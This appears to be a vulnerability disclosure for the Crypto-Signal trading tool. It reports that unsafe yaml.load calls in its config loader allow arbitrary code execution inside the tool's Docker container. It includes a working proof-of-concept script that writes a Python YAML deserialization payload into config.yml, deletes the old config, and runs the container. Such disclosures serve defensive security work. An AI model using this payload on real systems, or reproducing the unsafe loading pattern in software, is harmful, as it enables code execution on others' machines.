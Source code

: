 # Description
Crypto Signals is a command line tool that automates your crypto currency Technical Analysis (TA). It is maintained by a community of traders, engineers, data scientists, PMs, & countless generous individuals who wish to democratize the equal & open access to the greatest wealth re-distribution experiment in human and monetary policy history - Bitcoin
* **Vulnerability discription**
unsafe loading of data by the yaml.load function leading to Arbitrary code execution. Here this vulnerability forces to execute Code inside the docker container which runs the tool Crypto-Signal.
# Proof of Concept
* Vulnerable code part 
```python
with open('defaults.yml', 'r') as config_file:
            default_config = yaml.load(config_file)
if os.path.isfile('config.yml'):
    with open('config.yml', 'r') as config_file:
        user_config = yaml.load(config_file)
#https://github.com/CryptoSignal/Crypto-Signal/blob/master/app/conf.py#L21
```
1. run exploit.py
```python
# exploit.py
import os
#PAYLOAD SECTION
exploit = """settings: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('echo pwned')"
"""
os.system('rm -r config.yml')
open('config.yml','w+').write(exploit)
os.system('docker run --rm -v $PWD/config.yml:/app/config.yml shadowreaver/crypto-signal:master')
```

![](https://user-images.githubusercontent.com/43377443/103450695-f2366080-4cdf-11eb-83e6-de52d052ad14.png)
